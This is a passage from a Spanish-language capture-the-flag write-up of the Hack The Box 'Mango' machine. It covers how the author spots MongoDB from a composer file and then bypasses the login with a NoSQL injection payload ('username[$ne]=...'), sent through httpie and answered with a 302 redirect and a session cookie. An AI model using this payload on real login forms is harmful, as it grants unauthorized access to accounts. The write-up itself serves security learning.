 ``` text
            "ext-json": "*",
            "ext-mongodb": "^1.3.0",
            "php": ">=5.5"
        },
        "require-dev": {
            "phpunit/phpunit": "^4.8"
        },
        "source": {
            "reference": "5cffeb33b893b6bb04195b99ddc3955a29252339",
            "type": "git",
            "url": "https://github.com/mongodb/mongo-php-library.git"
        },
        "time": "2017-10-27T19:42:57+00:00",
        "type": "library",
        "version": "1.2.0",
        "version_normalized": "1.2.0.0"
    }
]

```

Aquí es cuando hice click. Mango-Mongo. La aplicación usa mongodb para la autenticación, por eso mis pruebas iniciales no funcionaron. Así que lo siguiente que hacemos es ir al payloadAllTheThings y revisar las notas sobre nosqli.

## Mongo NoSQLI

Entre las notas, hay una manera interesante de evaluar si la aplicación es susceptible a una inyección NOSQLi tipo blind; podemos efectuar una condición true al enviarle un "not equal" con un valor "no valido". Lo que buscamos con esta prueba, es un tipo de respuesta que indique un cambio en el code del response o en la cantidad de caracteres del reponse, así que tratemos de autenticarnos con el usuario y contraseña "miau":

``` text
tony@laptop:~/htb/mango$ http -f --proxy http:http://127.0.0.1:8080  POST http://staging-order.mango.htb/index.php 'username[$ne]=miau' 'password[$ne]=miau' login=login
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Connection: close
Content-Length: 4022
Content-Type: text/html; charset=UTF-8
Date: Fri, 03 Apr 2020 05:41:25 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=ju8qscanv6umtk7mqhu7m4ekd8; path=/
location: home.php

```

La aplicación no encuentra fallas en mi lógica (miau no existe) y con esto nos pasamos por el arco del triunfo su validación. El 302 significa que hemos ingresado a la aplicación, nos da una cookie y nos manda a home.
